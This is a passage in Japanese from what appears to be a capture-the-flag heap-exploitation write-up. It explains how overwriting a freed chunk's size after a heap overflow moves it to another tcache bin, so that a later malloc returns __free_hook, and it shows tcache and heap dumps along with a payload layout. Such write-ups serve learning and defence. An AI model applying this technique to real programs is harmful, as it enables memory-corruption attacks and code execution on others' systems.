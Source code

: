 残念ながら二度目のmallocで確保されたのは別の領域で`__free_hook`のアドレスではない。これはtcacheに入るチャンクが後入れ先出し(LIFO)であることが原因である。
AでのHeap Overflow後にmallocを行うと元々tcacheの先頭にはかつてBが指していたアドレス: `0x000056398dde0350`が繋がっていたのでそこが確保される。その後Bをfreeするとtcacheの先頭にはここが再び入ってしまう。
例によってアドレスは異なるが次のようなtcacheになる
```
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x000055b2e9eff350(rw-) ] <- old B
        ||
        \/
[ 0x00007f11041ef8e8(rw-) ] <- __free_hook
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
そして続くmallocでここからBを確保してしまうため一向に`__free_hook`を確保する事が出来ない。そこでBがfreeされる際に別のサイズのtcacheへ繋げることを考える(ここでヒントを見ました)

そのためにAのHeap Overflowでそのままにしていたサイズを0x31とする。具体的には次のようなヒープ領域を構築するようなペイロードを送り込む。

```
                   +--------------------+
0x0000557b34e92328 | 0x0000000000000021 |
                   +--------------------+
0x0000557b34e92330 | 0xdeadbeefcafebabe | <-- A
                   +--------------------+
0x0000557b34e92338 | 0xdeadbeefcafebabe | 
                   +--------------------+
0x0000557b34e92340 | 0xdeadbeefcafebabe |
                   +--------------------+
0x0000557b34e92348 | 0x0000000000000031 | <-- size of B is changed
                   +--------------------+
0x0000557b34e92350 |   <__free_hook>    | <-- old B (next chunk in tcache: 0x20)
                   +--------------------+
```

AでのHeap Overflow -> Bのmalloc -> ヒープ領域開示 -> Bのfree -> tcache開示をした様子が次

```
-=-=-=-=-= HEAP LAYOUT =-=-=-=-=-
 [+] A = 0x556cad4e5330
 [+] B = 0x556cad4e5350

                   +--------------------+
0x0000556cad4e5320 | 0x0000000000000000 |
                   +--------------------+
0x0000556cad4e5328 | 0x0000000000000021 |
                   +--------------------+
0x0000556cad4e5330 | 0x6161616161616161 | <-- A
                   +--------------------+
0x0000556cad4e5338 | 0x6161616161616161 |
                   +--------------------+
0x0000556cad4e5340 | 0x6161616161616161 |
                   +--------------------+
0x0000556cad4e5348 | 0x0000000000000031 |
                   +--------------------+
0x0000556cad4e5350 | 0x00007f0a6b6e756a | <-- B
                   +--------------------+
0x0000556cad4e5358 | 0x000000000000000a |
                   +--------------------+
0x0000556cad4e5360 | 0x0000000000000000 |
                   +--------------------+
0x0000556cad4e5368 | 0x0000000000020ca1 |
```